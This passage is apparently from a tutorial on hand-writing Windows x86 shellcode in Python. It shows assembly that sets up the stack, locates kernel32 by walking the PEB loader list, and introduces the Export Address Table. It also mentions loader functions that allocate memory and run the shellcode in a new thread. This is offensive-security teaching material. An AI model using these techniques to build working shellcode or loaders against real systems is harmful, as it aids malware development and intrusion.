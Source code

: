 The other functions are used to allocate the memory, copy the opcodes to the new memory page, and run the shellcode in a new thread.

Let's start adding the assembly code.

```py
CODE = (
        "start:                              "
        "   mov ebp, esp                    ;"
        "   sub esp, 0x200                  ;"
)
```

We emulate an actual function call and subtract an offset from the stack, so it does not get clobbered, that means that the call stack has been corrupted or overwritten in a way that causes unintended behavior.

The next step is write the functions that finds kernel32.

```py
"find_kernel32:                         "
"   xor ecx, ecx                        ;"  #   ECX = 0
"   mov esi, fs:[ecx+0x30]              ;"  #   ESI = &(PEB)
"   mov esi, [esi+0x0C]                 ;"  #   ESI = PEB->Ldr
"   mov esi, [esi+0x1C]                 ;"  #   ESI = PEB->Ldr.InInitOrder
```

Now, we need to include the "next_module" function, that jumps to the next module if the comparison is not successful.

```py
"next_module:                            "
"   mov ebx, [esi+0x8]                  ;"  #   EBX = InInitOrder[x].base_address
"   mov edi, [esi+0x20]                 ;"  #   EDI = InInitOrder[x].module_name
"   mov esi, [esi]                      ;"  #   ESI = InInitOrder[x].flink
"   cmp [edi+12*2], cx                  ;"  #   module_name[12] == 0x00 ?
"   jne next_module                     ;"  #   jump to the next module
"   ret                                 ;"
```

The reason for we multiply "12*2" lies in the fact that the length of the "kernel32.dll" string is 12 bytes. Because the string is stored in UNICODE format, every character of the string will be represented as a WORD rather than a byte, making the length 24 in Unicode. 

## Other functions and symbols

We have to traverse the Export Address Table (EAT) of a DLL to obtain the functions addresses that the library is importing.

### Export Address Table

The EAT is a key component of a Portable Executable (PE) file, dynamic link libraries (DLLs), and other executable files. The EAT is part of the PE file's export section, and its primary purpose is to provide the addresses of functions or variables that the module (typically a DLL) exports for use by other modules.

